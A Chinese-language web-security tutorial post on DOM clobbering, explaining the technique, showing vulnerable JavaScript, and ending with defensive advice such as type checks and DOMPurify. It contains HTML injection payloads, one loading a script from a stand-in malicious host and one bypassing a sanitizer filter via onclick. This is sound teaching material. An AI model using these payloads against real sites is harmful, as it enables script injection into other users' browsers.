 +++
draft = false
date = 2021-03-07T00:00:00+08:00
title = "DOM clobbering"
description = "DOM clobbering"
slug = ""
authors = []
tags = []
categories = ["web security"]
externalLink = ""
series = []
disableComments = true
+++

# DOM clobbering

在本节中，我们将描述什么是 DOM clobbing ，演示如何使用 clobbing 技术来利用 DOM 漏洞，并提出防御 DOM clobbing 攻击的方法。


## 什么是 DOM clobbering

DOM clobbering 是一种将 HTML 注入页面以操作 DOM 并最终改变页面上 JavaScript 行为的技术。在无法使用 XSS ，但是可以控制页面上 HTML 白名单属性如 id 或 name 时，DOM clobbering 就特别有用。DOM clobbering 最常见的形式是使用 anchor 元素覆盖全局变量，然后该变量将会被应用程序以不安全的方式使用，例如生成动态脚本 URL 。

术语 clobbing 来自以下事实：你正在 “clobbing”（破坏） 一个全局变量或对象属性，并用 DOM 节点或 HTML 集合去覆盖它。例如，可以使用 DOM 对象覆盖其他 JavaScript 对象并利用诸如 submit 这样不安全的名称，去干扰表单真正的 submit() 函数。


## 如何利用 DOM-clobbering 漏洞

某些 JavaScript 开发者经常会使用以下模式：
```
var someObject = window.someObject || {};
```

如果你能控制页面上的某些 HTML ，你就可以破坏 someObject 引用一个 DOM 节点，例如 anchor 。考虑如下代码：
```
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```

要利用此易受攻击的代码，你可以注入以下 HTML 去破坏 someObject 引用一个 anchor 元素：
```
<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>
```

由于使用了两个相同的 ID ，因此 DOM 会把他们归为一个集合，然后 DOM 破坏向量会使用此集合覆盖 someObject 引用。在最后一个 anchor 元素上使用了 name 属性，以破坏 someObject 对象的 url 属性，从而指向一个外部脚本。


另一种常见方法是使用 form 元素以及 input 元素去破坏 DOM 属性。例如，破坏 attributes 属性以使你能够通过相关的客户端过滤器。尽管过滤器将枚举 attributes 属性，但实际上不会删除任何属性，因为该属性已经被 DOM 节点破坏。结果就是，你将能够注入通常会被过滤掉的恶意属性。例如，考虑以下注入：
```
<form onclick=alert(1)><input id=attributes>Click me
```

在这种情况下，客户端过滤器将遍历 DOM 并遇到一个列入白名单的 form 元素。正常情况下，过滤器将循环遍历 form 元素的 attributes 属性，并删除所有列入黑名单的属性。但是，由于 attributes 属性已经被 input 元素破坏，所以过滤器将会改为遍历 input 元素。由于 input 元素的长度不确定，因此过滤器 for 循环的条件（例如 i < element.attributes.length）不满足，过滤器会移动到下一个元素。这将导致 onclick 事件被过滤器忽略，其将会在浏览器中调用 alert() 方法。


## 如何防御 DOM-clobbering 攻击

简而言之，你可以通过检查以确保对象或函数符合你的预期，来防御 DOM-clobbering 攻击。例如，你可以检查 DOM 节点的属性是否是 NamedNodeMap 的实例，从而确保该属性是 attributes 属性而不是破坏的 HTML 元素。

你还应该避免全局变量与或运算符 `||` 一起引用，因为这可能导致 DOM clobbering 漏洞。

总之：
- 检查对象和功能是否合法。如果要过滤 DOM ，请确保检查的对象或函数不是 DOM 节点。
- 避免坏的代码模式。避免将全局变量与逻辑 OR 运算符结合使用。
- 使用经过良好测试的库，例如 DOMPurify 库，这也可以解决 DOM clobbering 漏洞的问题。